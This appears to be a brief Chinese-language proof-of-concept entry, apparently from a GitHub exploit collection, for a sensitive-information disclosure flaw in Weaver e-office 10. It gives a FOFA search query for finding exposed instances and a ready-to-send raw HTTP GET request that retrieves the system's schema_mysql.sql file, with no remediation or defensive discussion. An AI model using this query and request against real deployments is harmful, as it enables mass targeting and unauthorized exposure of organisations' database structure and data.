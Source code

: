 # 泛微e-office10系统schema_mysql.sql敏感信息泄露漏洞

泛微 e-office 10 schema_mysql.sql敏感信息泄露漏洞

## fofa

```java
body="eoffice_loading_tip" && body="eoffice10"
```

## poc

```java
GET /eoffice10/empty_scene/db/schema_mysql.sql HTTP/1.1
Host:
Pragma:no-cache
Cache-Control:no-cache
Upgrade-Insecure-Requests:1
User-Agent:Mozilla/5.0(Macintosh;IntelMacOSX10_15_7)AppleWebKit/537.36(KHTML,likeGecko)Chrome/120.0.0.0Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding:gzip,deflate
Accept-Language:zh-CN,zh;q=0.9,en;q=0.8
Connection:close
Content-Type:application/x-www-form-urlencoded
Content-Length:70
```

